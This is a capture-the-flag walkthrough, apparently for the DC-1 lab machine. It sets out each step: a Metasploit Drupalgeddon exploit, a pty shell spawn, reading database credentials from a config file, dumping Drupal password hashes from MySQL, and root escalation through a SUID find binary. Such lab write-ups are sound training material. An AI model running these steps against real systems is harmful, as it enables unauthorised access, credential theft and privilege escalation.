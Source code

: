 # DC 1 Walkthrough

## Exploiting Drupalgeddon

```sh
msfconsole -q
search Drupalgeddon
use 0
set RHOSTS <target-ip>
exploit
```

## Gaining Shell Access

```sh
python -c "import pty; pty.spawn('/bin/bash')"
```

## Retrieving the First Flag

```sh
cat flag1.txt
```

**Flag1**
> Every good CMS needs a config file—and so do you.

---

## Finding Database Credentials

```php
array (
 'database' => 'drupaldb',
 'username' => 'dbuser',
 'password' => 'R0ck3t',
 'host' => 'localhost',
 'port' => '3306',
 'driver' => 'mysql',
 'prefix' => '',
)
```

**Flag 2**
> Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access).
> What can you do with these credentials?

---

## Accessing MySQL

```sh
mysql -u dbuser -pR0ck3t -h localhost
```

### Extracting Hashes

```sh
SELECT name, pass FROM users;
```

```
admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg
```

---

## Navigating to Home Directory

```sh
cd /home
```

```sh
cat flag4
```

**flag4**
> Can you use this same method to find or access the flag in root?
> Probably. But perhaps it's not that easy. Or maybe it is?

---

```sh
find / -perm -u=s 2>/dev/null
find /dev -name null -exec /bin/bash \;
## Accessing the Root Directory
cd /root
cat thefinalflag.txt
```
---

## Final Flag

**Congratulations!**

> Well done!
> Hopefully you've enjoyed this and learned some new skills.
> You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7

